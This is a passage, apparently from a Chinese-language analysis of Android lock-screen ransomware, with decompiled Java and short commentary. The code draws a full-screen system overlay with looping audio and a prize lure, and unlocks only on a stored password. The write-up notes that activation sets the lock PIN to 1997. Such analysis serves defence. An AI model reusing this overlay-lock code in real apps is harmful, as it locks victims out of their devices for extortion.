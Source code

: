 ```java
    }
    throw localNoClassDefFoundError;
  }
```
>用户只要一点击激活，那么就会设置一个密码为1997的锁屏密码，并且开启s这个服务。
>跟进看看这个服务做了些什么。
>s里面杂乱代码太多，我们直接来看主要的。
```java
  private void c()
  {
    WindowManager.LayoutParams localLayoutParams = new WindowManager.LayoutParams();
    this.wmParams = localLayoutParams;
    Application localApplication = getApplication();
    getApplication();
    this.mWindowManager = ((WindowManager)localApplication.getSystemService(Context.WINDOW_SERVICE));
    this.wmParams.type = 2010;
    this.wmParams.format = 1;
    this.wmParams.flags = 1280;
    this.wmParams.gravity = 49;
    this.wmParams.x = 0;
    this.wmParams.y = 0;
    this.wmParams.width = -1;
    this.wmParams.height = -1;
    this.mFloatLayout = LayoutInflater.from(getApplication()).inflate(2130903041, (ViewGroup)null);
    MediaPlayer localMediaPlayer = MediaPlayer.create(this, 2131099648);
    localMediaPlayer.setLooping(true);
    localMediaPlayer.start();
    this.mWindowManager.addView(this.mFloatLayout, this.wmParams);
    this.bt = ((Button)this.mFloatLayout.findViewById(2131361794));
    this.ed = ((EditText)this.mFloatLayout.findViewById(2131361792));
    this.tv = ((TextView)this.mFloatLayout.findViewById(2131361793));
    try
    {
      this.ed.setHint("宝贝在这输入密码！");
      this.tv.append("恭喜中奖");
      Button localButton = this.bt;
      100000001 local100000001 = new View.OnClickListener()
      {
        @Override
        public void onClick(View paramView)
        {
          try
          {
            if (s.this.ed.getText().toString().equals(s.this.des.decrypt(s.this.share.getString("passw", ""))))
            {
              s.access$L1000001(s.this).removeView(s.access$L1000002(s.this));
              s.this.stopSelf();
            }
            return;
          }
          catch (Exception localException)
          {
          }
        }
      };
      localButton.setOnClickListener(local100000001);
    }
    catch (Exception localException1)
    {
      try
      {
```